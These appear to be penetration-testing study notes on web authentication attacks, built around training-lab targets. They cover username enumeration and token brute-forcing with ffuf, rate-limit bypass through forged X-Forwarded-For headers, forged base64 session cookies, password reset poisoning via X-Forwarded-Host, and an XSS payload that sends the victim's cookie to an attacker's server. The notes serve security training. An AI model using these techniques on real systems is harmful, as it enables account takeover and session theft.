

## Table of Contents

- [1. The basics](#1-the-basics)
  - [Common Authentication Methods](#common-authentication-methods)
  - [How do authentication vulnerabilities arise?](#how-do-authentication-vulnerabilities-arise)
- [2. Brute-Force Attacks](#2-brute-force-attacks)
  - [2.1 - Enumerating Users](#21---enumerating-users)
  - [2.2 - Brute-Forcing Passwords](#22---brute-forcing-passwords)
  - [2.3 - Brute-Forcing Password Reset Tokens](#23---brute-forcing-password-reset-tokens)
  - [2.4 - Brute-Forcing 2FA Codes](#24---brute-forcing-2fa-codes)
  - [2.5 - Weak Brute-Force Protection](#25---weak-brute-force-protection)
    - [Reset attempt counter](#Reset-attempt-counter)
    - [Account locking](#Account-locking)
    - [Bypass Rate Limits by custom header](#Bypass-Rate-Limits-by-custom-header)
    - [Bypass Rate Limits by Content-type Header](#Bypass-Rate-Limits-by-Content-type-Header)
    - [CAPTCHAs](#captchas)
  - [2.6 - Default Credentials](#26---default-credentials)
  - [2.7 - Vulnerable Password Reset](#27---vulnerable-password-reset)
    - [Guessable Password Reset Questions](#guessable-password-reset-questions)
    - [Manipulating the Reset Request](#manipulating-the-reset-request)
  - [2.8 - Password brute-force via password change](#28---Password-brute-force-via-password-change) 
- [3. Authentication Bypass](#3-authentication-bypass)
  - [Direct Access](#direct-access)
  - [Parameter Modification](#parameter-modification)
  - [HTTP basic authentication](#HTTP-basic-authentication)
- [4. Attacking Session Tokens](#4-attacking-session-tokens)
  - [Brute-Force Attack](#brute-force-attack)
    - [Session Fixation](#session-fixation)
    - [Improper Session Timeout](#improper-session-timeout)
  - [Keeping users logged in](#Keeping-users-logged-in)
  - [Resetting passwords using a URL](#resetting-passwords-using-a-url)


# 1. The basics

| **Authentication** | **Authorization** |
|---------------------|--------------------|
| ✅ Determines whether users are who they claim to be | ✅ Determines what users can and cannot access |
| ✅ Challenges the user to validate credentials (for example, through passwords, answers to security questions, or facial recognition) | ✅ Verifies whether access is allowed through policies and rules |
| ✅ Usually done before authorization | ✅ Usually done after successful authentication |
| ✅ It usually needs the user’s login details | ✅ While it needs user’s privilege or security levels |
| ✅ Generally, transmits info through an **ID Token** | ✅ Generally, transmits info through an **Access Token** |


## Common Authentication Methods

Information technology systems can implement different authentication methods. Typically, they can be divided into the following three major categories:

- `Knowledge-based authentication` (something that the user knows to prove their identity, such as passwords, passphrases, PINs, or answers to security questions.)
- `Ownership-based authentication` (relies on something the user possesses. Such as ID cards, security tokens, or smartphones with authentication apps.) 
- `Inherence-based authentication` (relies on something the user is or does. This includes biometric factors such as fingerprints, facial patterns, and voice recognition, or signatures.)

|Knowledge	|Ownership	|Inherence|
|-|-|-|
|Password|	ID card	|Fingerprint|
|PIN|	Security Token	|Facial Pattern|
|Answer to Security Question|	Authenticator App|	Voice Recognition|

**Attacking Knowledge-based Authentication**

`Knowledge-based authentication` is widespread and **vulnerable to attack**. This module focuses primarily on this method due to its exploitable weaknesses. It relies on **static personal information** that attackers can obtain through `guessing`, `brute-force attacks`, `social engineering`, or `data breaches`. As **cyber threats** evolve, attackers increasingly exploit these **authentication weaknesses**.

**Attacking `Ownership-based Authentication`**

`Ownership-based authentication` offers **significant advantages** against common threats like `phishing` or `password-guessing attacks`. **Physical tokens** and `smart cards` are inherently more secure since physical items are harder to acquire or replicate than information obtained through `data breaches`. However, **cost and logistics** of distributing physical devices can limit widespread adoption.

These systems remain vulnerable to **physical attacks** like `stealing` or `cloning`, and **cryptographic attacks** on underlying algorithms. For example, `cloning NFC badges` in public places is a feasible attack vector.

**Attacking `Inherence-based Authentication`**

`Inherence-based authentication` provides **convenience** and **user-friendliness** by eliminating the need for complex passwords or physical tokens. Users simply provide `biometric data` like `fingerprints` or `facial scans`. This enhances **user experience** and reduces security breaches from weak passwords.

However, these systems face **irreversible compromise** risks during data breaches since users cannot change `biometric features`. A notable 2019 breach of a biometric smart lock company exposed all `fingerprints`, `facial patterns`, usernames, passwords, and user addresses. Unlike knowledge-based systems where users could change passwords, the **biometric data compromise** was permanent.

## How do authentication vulnerabilities arise?

Most vulnerabilities in **authentication mechanisms** occur in two ways:

* **Weak mechanisms** that fail to protect against `brute-force attacks`
* **Logic flaws** or poor coding that allow attackers to bypass authentication entirely (**broken authentication**)

Since authentication is **critical to security**, flawed authentication logic typically exposes websites to significant **security issues**.

# 2. Brute-Force Attacks

## 2.1 - Enumerating Users

User enumeration is a common vulnerability that can `expose valid usernames` through `subtle differences` in application behavior—such as `error messages or response timing`.

```
$ ffuf -w xato-net-10-million-usernames.txt:FUZZ -u http://94.237.57.57:45375/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user" -v -c
```

**Note:**
> - Usernames are easy to guess when they follow predictable patterns like `firstname.lastname@company.com` or common defaults like `admin` and `administrator`.
> - During audits, check if usernames are exposed publicly—e.g., through accessible user profiles or in HTTP responses that may reveal email addresses of privileged users like admins or IT support.
> - While attempting to brute-force a login page, you should pay particular attention to any differences in: `Status codes`, `Error messages`, `Response times`.
> - In some case, the different is very `subtle`, could be just a dot. Filter regex as close as possible.
> - Another case is testing with a `very long password`, check its `response time`

## 2.2 - Brute-Forcing Passwords

Brute-forcing passwords is a common attack method that exploits weak or reused credentials, which are still widely used despite known risks.

For example, if we somehow can get the password policy from Information Disclosure, or somthing like error message when logging in:
- Password policy:
  + `contains at least 1 upper-case char`
  + `contains at least 1 lower-case char`
  + `contains at least 1 digit`
  + `minimum length of 10 chars`

We can try to cut those out of custom wordlist:

```
$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

**Note:**
> - While password policies enforce complexity (minimum length, mixed case, special characters), users often adapt memorable passwords to meet requirements rather than creating truly random ones. For example, `mypassword` becomes `Mypassword1!` or `Myp4$w0rd`.
> - When regular password changes are required, users typically make predictable modifications like `Mypassword1!` → `Mypassword1?` or `Mypassword2!`. Understanding these human behavior patterns makes brute-force attacks far more effective than randomly trying all character combinations.

## 2.3 - Brute-Forcing Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:



To identify `weak reset tokens`, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the `GET-parameter token`. In this example, the token is 7351. Given that the token consists of only a `4-digit number`, there can be only 10,000 possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`: `$ seq -w 0 9999 > tokens.txt`

## 2.4 - Brute-Forcing 2FA Codes

One common 2FA method combines a password with a time-based one-time password (TOTP) sent via authenticator app or SMS. Since TOTPs are typically only digits, they can be vulnerable to guessing attacks if they're too short or if the application doesn't prevent multiple failed attempts.

For example, we assume that we obtained valid credentials in a prior phishing attack: `admin:admin`. However, the web application is secured with `2FA` using OTP code, as we can see after logging in with the obtained credentials. 

From here, its only possible to fuzz with `ffuf` if: there is no `try limit` + `if we know the policy` (length, format, ...).

**Note:**
> - Its best to make a test account to figure out the code policy, like lenght, form, ...
> - Also, it is crucial to take notice of web's cookies each time you were redirected.
> - On test account, try brute force your own code to see if there's any restriciton.

## 2.5 - Weak Brute-Force Protection

Brute-force attacks typically involve many failed login attempts before success. Protection focuses on making automation difficult and slowing attack rates through two main methods:

* Account locking after multiple failed attempts
* IP address blocking after rapid failed attempts

Both methods provide some protection but have vulnerabilities due to flawed implementation logic. 

### Reset attempt counter

For instance, some systems reset the failed attempt counter when any successful login occurs from that IP. Attackers can exploit this by periodically logging into their own accounts during the attack, effectively bypassing the protection by including their valid credentials in the attack sequence.

**Note:**
> - Make lists as after in-limit time of fuzz, come a valid cred of your.

### Account locking

Websites lock accounts after a set number of failed login attempts to prevent brute-forcing. While this protects against targeted attacks on specific accounts, it fails against attackers seeking access to any random account.

Attackers can bypass account locking by:
1. Creating a list of likely valid usernames
2. Selecting a small number of common passwords (within the attempt limit)
3. Testing each password against all usernames before the lock triggers

This approach only requires one user to have a weak password to succeed.

Account locking also doesn't prevent credential stuffing attacks, which use stolen username:password pairs from data breaches. Since each username is attempted only once with its corresponding password, account locks aren't triggered. This method exploits password reuse across multiple sites and can compromise many accounts simultaneously.

**Note:**
> - Fuzzing with a list of username and a list of wrong password repeated several time.
> - The valid username will be tried with wrong password few time until it hit limit.
> - Seeing the warning message = correct username.
> - Wait time out -> fuzz password.
> - The correct password lead to a blank because of the limit try.
> - Wait -> pwn. 

### Bypass Rate Limits by custom header

Rate limiting controls the number of requests to a system within a specified timeframe to prevent server overload, system downtime, and brute-force attacks. It maintains system stability and ensures fair resource usage by enforcing maximum request thresholds.

When attackers hit rate limits during brute-force attacks, the system either increases response times or temporarily blocks access. However, rate limits should only affect attackers, not legitimate users, to avoid creating denial-of-service scenarios.

Many implementations use IP addresses to identify attackers, but this becomes problematic with middleboxes like reverse proxies or load balancers, where the source IP belongs to the middlebox rather than the actual attacker. Some systems rely on HTTP headers like `X-Forwarded-For` to determine the real source IP.

This creates a vulnerability: attackers can set arbitrary HTTP headers, including randomizing `X-Forwarded-For` values in each request to bypass rate limits entirely. This type of vulnerability occurs frequently in real-world applications, as documented in cases like CVE-2020-35590.

**Note:**
> - If theres a rate limit, we can add `X-Forwarded-For` header to our intercept tool with increasing value: `X-Forwarded-For: 1`, increase 1 each new request. 


### Bypass Rate Limits by Content-type Header

In this case, as the limit is based on the rate of HTTP requests sent from the user's IP address, it is sometimes also possible to bypass this defense if you can work out how to guess multiple passwords with a single request.

This is `only possible if` the `POST /login` request submits the login credentials in `JSON format`: `Content-Type: application/json`.

Meaning instead of submitting: `{"username":"test","password":"test"}`, we can alter the `password` into a form of list: 

```
`{"username":"test","password":["test1","test2",...]}`,
```

### CAPTCHAs

CAPTCHA (Completely Automated Public Turing test to tell Computers and Humans Apart) is a security measure that prevents bots from submitting automated requests by requiring human interaction. CAPTCHAs present challenges easy for humans but difficult for bots, such as identifying distorted text, selecting objects in images, or solving simple puzzles.

By forcing manual completion of these challenges, CAPTCHAs make brute-force attacks infeasible since they become manual tasks rather than automated scripts. This helps prevent spam, fake account creation, and login attacks.

Additionally, tools and browser extensions to solve CAPTCHAs automatically are rising. Many open-source CAPTCHA solvers can be found. In particular, the rise of AI-driven tools provides CAPTCHA-solving capabilities by utilizing powerful image recognition or voice recognition machine learning models.

## 2.6 - Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application; otherwise, they provide an easy way for attackers to obtain authenticated access. As such, Testing for Default Credentials is an essential part of authentication testing in OWASP's Web Application Security Testing Guide.

Many platforms provide lists of default credentials for a wide variety of web applications. Such an example is the web database maintained by [CIRT.net](https://www.cirt.net/passwords). Further resources include SecLists Default Credentials as well as the SCADA GitHub repository which contains a list of default passwords for a variety of different vendors.

## 2.7 - Vulnerable Password Reset

### Guessable Password Reset Questions

Web applications often use security questions to authenticate users during password resets. Users typically answer predefined, generic questions during registration rather than creating custom ones, meaning all users face identical security questions that attackers can exploit.

The main vulnerability lies in the predictability of answers to common questions like:
* "What is your mother's maiden name?"
* "What city were you born in?"

While these appear personal, answers can often be discovered through OSINT (Open Source Intelligence) gathering or guessed through brute-force attacks if the system lacks proper protection. This makes question-based password reset functionality a weak authentication method that attackers can readily abuse.

For instance, assuming a web application uses a security question like `What city were you born in?`. We can attempt to `brute-force` the answer to this question by using a proper wordlist. There are multiple lists containing large cities in the world. Thus, if we knew that our target user was from Germany, we could create a wordlist containing only German cities, reducing the number

```
$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt

$ wc -l city_wordlist.txt 

26468 city_wordlist.txt

$cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt

$ wc -l german_cities.txt 

1117 german_cities.txt

$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

## 2.8 - Password brute-force via password change

**Password Change Vulnerabilities**

**Standard process:** Password change typically requires current password + new password (entered twice)

**Key risks:**
- **Same vulnerabilities as login pages:** Password change functions use identical authentication logic, making them susceptible to the same attack techniques
- **Direct access without authentication:** Most dangerous when attackers can access password change functionality without being logged in as the target user
- **Hidden field manipulation:** If username is stored in hidden fields, attackers can modify requests to target arbitrary users
- **Attack potential:** Can enable username enumeration and password brute-force attacks

**Security implication:** Password change pages should be treated with the same security rigor as login pages.

**Note:**
> - When use your test account to change its own password, the request being sent as: `username=test&current-password=test&new-password-1=newtest&new-password-2=newtest`.
> - Here we can fuzz the `password` of your tagert, based on `the different responses` when `new password` and `confirm new password` values are different.
> - Base on that, fuzz until u get a message: `New passwords are incorrect`.

### Manipulating the Reset Request

Another instance of a flawed password reset logic occurs when a user can manipulate a potentially `hidden parameter` to reset the password of a different account.

For instance, we use a test account to reset its password, the website could ask us to specify `username`. We submit our test account so:

```
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

From here, we will do some formal procedure to reset our password. However, use `intercept tools` along the process, at the last momment we enter our `new password`:

```
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```

If the website behave like so, by intercepting, we can alter the username to `admin` or so.

# 3. Authentication Bypass

### Direct Access

For instance, let us assume that we know that the web application redirects users to the `/admin.php` endpoint after successful authentication, providing protected information only to authenticated users. If the web application relies solely on the login page to authenticate users, we can access the protected resource directly by accessing the `/admin.php` endpoint.

This is because if the user is first prompted to enter a password, and then prompted to enter a verification code on a separate page, the user is effectively in a "logged in" state before they have entered the verification code. In this case, it is worth testing to see if you can directly skip to "logged-in only" pages after completing the first authentication step. Occasionally, you will find that a website doesn't actually check whether or not you completed the second step before loading the page.

While this scenario is uncommon in the real world, a slight variant occasionally happens in vulnerable web applications. To illustrate the vulnerability, let us assume a web application uses the following snippet of PHP code to verify whether a user is authenticated:

```
if(!$_SESSION['active']) {
	header("Location: index.php");
}
```

This code redirects the user to `/index.php` if the session is not active, i.e., if the user is not authenticated. However, `the PHP script does not stop execution, resulting in protected information within the page being sent in the response body`, meaning the entire admin page is contained in the response body.

However, if we attempt to access the page in our web browser, the browser follows the redirect and displays the login prompt instead of the protected admin page. We can use `intercept tools` to bypass this by intercepting the response and changing the status code from 302 to 200.

### Parameter Modification

For example, this time, we are provided with credentials for the user `htb-stdnt`. After logging in, we are redirected to `/admin.php?user_id=183`. In our web browser, we can see that we seem to be `lacking privileges`, as we can only see a part of the available data.

To investigate the purpose of the `user_id` parameter, we try remove it from our request to `/admin.php`. When doing so, we are redirected back to the login screen at `/index.php`, even though our session provided in the `PHPSESSID` cookie is still valid.

Thus, we can assume that the parameter `user_id` is related to authentication. We can bypass authentication entirely by accessing the URL `/admin.php?user_id=183` directly. Based on the parameter name user_id, we can infer that the parameter specifies the ID of the user accessing the page. From here, just `fuzz` it.


## HTTP basic authentication

HTTP basic authentication is a simple but outdated method where the client receives a token created by Base64-encoding the username and password concatenated together. The browser automatically adds this token to every request's `Authorization` header:

`Authorization: Basic base64(username:password)`

**Security Issues:**
- Sends login credentials with every request, making them vulnerable to man-in-the-middle attacks (especially without HSTS)
- Often lacks brute-force protection since tokens are static values
- Vulnerable to CSRF attacks with no built-in protection
- Exposed credentials may be reused in other systems, expanding the attack surface

Despite seeming to protect only uninteresting pages, compromised basic authentication can provide attackers with broader access opportunities.


# 4. Attacking Session Tokens

## Brute-Force Attack

**Short token**

Suppose a `session token` does not provide `sufficient randomness` and is `cryptographically weak`. In that case, we can brute-force valid session tokens similarly to how we were able to brute-force valid password-reset tokens. This can happen if a session token is too short or contains static data that does not provide randomness to the token, i.e. In this case, just `fuzz`.

**Not random**

In another case, the session token is 32 characters long; thus, it seems infeasible to enumerate other users' valid sessions. However, let us send the login request multiple times and take note of the session tokens assigned by the web application. This results in the following session tokens:

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

As we can see, all session tokens are very similar. In fact, of the 32 characters, 28 are the same for all five captured sessions. The session tokens consist of the static string `2c0c58b27c71a2ec5bf2b4` followed by four random characters and the static string `92b9f9`. This reduces the effective randomness of the session tokens. Since 28 out of 32 characters are static, there are only four characters we need to enumerate to brute-force all existing active sessions, enabling us to hijack all active sessions.

Another vulnerable example would be an incrementing session identifier. For instance, consider the following capture of successive session tokens:

```
141233
141234
141237
141238
141240
```

As we can see, the session tokens seem to be incrementing numbers. This makes enumeration of all past and future sessions trivial, as we simply need to increment or decrement our session token to obtain active sessions and hijack other users' accounts.

**Encoded**

In a more realistic scenario, the session token does provide sufficient randomness on the surface. However, the generation of session tokens is not truly random; it can be predicted by an attacker with insight into the session token generation logic. 

The simplest form of predictable session tokens contains encoded data we can tamper with. For instance, consider the following session token: `session=dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy`

While this session token might seem random at first, a simple analysis reveals that it is base64-encoded data:

```
$ echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d

user=htb-stdnt;role=user
```

As we can see, the cookie contains information about the user and the role tied to the session. However, there is no security measure in place that prevents us from tampering with the data. We can forge our own session token by manipulating the data and base64-encoding it to match the expected format. This enables us to forge an admin cookie:

```
$ echo -n 'user=htb-stdnt;role=admin' | base64

dXNlcj1odGItc3RkbnQ7cm9sZT1hZG1pbg==
```

The same exploit works for cookies containing `differently encoded` data.

### Session Fixation

Session Fixation allows attackers to steal victim sessions by forcing them to use a predetermined session token. Vulnerable applications fail to generate new session tokens after successful authentication.

**Attack Process:**

1. **Setup**: Attacker obtains a valid session token (e.g., `a1b2c3d4e5f6`) then logs out
2. **Trick Victim**: Attacker sends malicious link like `http://vulnerable.htb/?sid=a1b2c3d4e5f6`
3. **Session Set**: When clicked, the application sets the victim's session cookie to the attacker's token
4. **Authentication**: Victim logs in using the attacker-controlled session token
5. **Hijack**: Attacker uses the known token to access victim's authenticated session

**Prevention:** Applications must generate new random session tokens after successful authentication to prevent this attack.

### Improper Session Timeout

Web applications must define proper session timeouts. Without timeouts, session tokens remain valid indefinitely, allowing hijacked sessions to be exploited forever. Timeout values should match business requirements: sensitive applications (health data) may use minutes, while social media applications might use hours.

## Keeping users logged in

"Remember me" functionality uses persistent cookies to maintain login sessions. Since these cookies bypass the login process, they must be unpredictable to prevent attacks.

**Common vulnerabilities:**
- Using predictable values (username + timestamp, or even passwords) makes cookies guessable
- Attackers can create accounts to study cookie generation patterns, then brute-force other users' cookies
- Simple encoding like Base64 provides no real protection
- Even proper encryption without salts can be vulnerable to brute-force attacks using wordlists
- Cookie guessing can bypass login attempt limits if similar protections aren't applied to cookies

**Note:**
> - When seeing this kind of function, take a good look at the `keep-logged-in-token`. Inspect it with care, using tools like `CyberChef`, and `CrackStation`, ...
> - When there's this kind of token, common `cookie` is not needed, remove it when fuzzing.

**Offline password cracking:**

Even without creating their own account, an attacker could exploit this vulnerability. Through methods like XSS, they might steal a user's "remember me" cookie and analyze its structure—especially if the site uses an open-source framework with publicly available implementation details.

In rare cases, a cookie may reveal a user's password in cleartext or as a hash. If the hash matches one from a common password list, it could be easily reversed, highlighting the need for proper salting in secure encryption.

**Note:**
> - When exploiting `XSS` or something similar to pull this off, make sure you use the `correct syntax in your script`. (miss use of `' '` and `" "`)
> - XSS script on comment section to make Bot visit your exploit server: `<script>document.location='https://exploitserver'+document.cookie</script>`.

## Resetting passwords using a URL

**Insecure approach:** URLs with predictable parameters like `user=victim-user` allow attackers to reset any user's password by changing the parameter.

**Secure approach:** Use high-entropy tokens in URLs:
`http://site.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8`

**Best practices:**
- Generate unpredictable tokens that don't reveal which user's password is being reset
- Validate the token exists and matches the correct user on the backend
- Set short expiration times and destroy tokens immediately after use
- **Critical:** Re-validate the token when the reset form is submitted to prevent attackers from accessing the form through their own account and resetting arbitrary users' passwords

**Password reset poisoning**

If the URL in the reset email is generated dynamically, this may also be vulnerable to password reset poisoning. In this case, an attacker can potentially steal another user's token and use it change their password.

**Attack Steps:**
1. **Request manipulation:** Attacker submits password reset for victim's account while intercepting the HTTP request and modifying the Host header to point to their domain (e.g., `evil-user.net`)

2. **Malicious email delivery:** Victim receives legitimate password reset email from the real website, but the reset URL points to attacker's domain:
   `https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`

3. **Token theft:** When victim clicks the link, the valid password reset token is sent to attacker's server

4. **Account takeover:** Attacker uses stolen token on the real website to reset victim's password and gain account access

**Attack enhancements:**
- Send fake breach notifications to increase click probability
- Use Host header to inject HTML into emails (dangling markup attacks possible even without JavaScript)

**Vulnerability:** Applications that dynamically generate password reset URLs based on controllable input like the Host header

**Note:**
> - This kind of attack con only happens if the `X-Forwarded-Host` header is `supported` and you can use it to point the dynamically generated reset link to an arbitrary domain.
> - Add `X-Forwarded-Host: your-attack-server` to your request ( remove the `https://`, just leave like this: domain.net)
